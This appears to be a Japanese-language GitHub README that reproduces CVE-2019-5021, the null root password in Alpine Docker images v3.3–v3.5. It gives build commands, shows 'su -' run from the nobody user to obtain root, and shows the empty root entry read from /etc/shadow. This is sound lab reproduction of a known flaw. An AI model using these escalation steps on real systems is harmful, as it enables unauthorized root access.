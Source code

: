 # cve-2019-5021
alpineイメージ (v3.3 - v3.5) のrootパスワードがnullだった脆弱性。

まず`Dockerfile`からイメージをbuildする。
```
$ docker build -t cve-2019-5021:1 .
Sending build context to Docker daemon  3.072kB
Step 1/2 : FROM alpine:3.5
 ---> f80194ae2e0c
Step 2/2 : RUN apk update && apk add shadow
 ---> Running in 0bd5a51ac649
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/main/x86_64/APKINDEX.tar.gz
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/community/x86_64/APKINDEX.tar.gz
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/main]
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/community]
OK: 7963 distinct packages available
(1/2) Installing linux-pam (1.2.1-r0)
(2/2) Installing shadow (4.2.1-r8)
Executing busybox-1.25.1-r2.trigger
OK: 6 MiB in 13 packages
Removing intermediate container 0bd5a51ac649
 ---> b2ac47c6d945
Successfully built b2ac47c6d945
Successfully tagged cve-2019-5021:1
```

uid:65534(nobody)を指定してbuildしたイメージからコンテナを起動する。
`su -`コマンドでrootのパスワードを聞かれずにrootになれる。
```
$ docker container run --user 65534:65534 -it cve-2019-5021:1
~ $ id
uid=65534(nobody) gid=65534(nobody)
~ $ su -
c40b869c5be7:~# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
c40b869c5be7:~# 
```

`/etc/shadow`を見てみると確かにrootのパスワードが設定されていない。
```
c40b869c5be7:~# grep root /etc/shadow
root:::0:::::

```
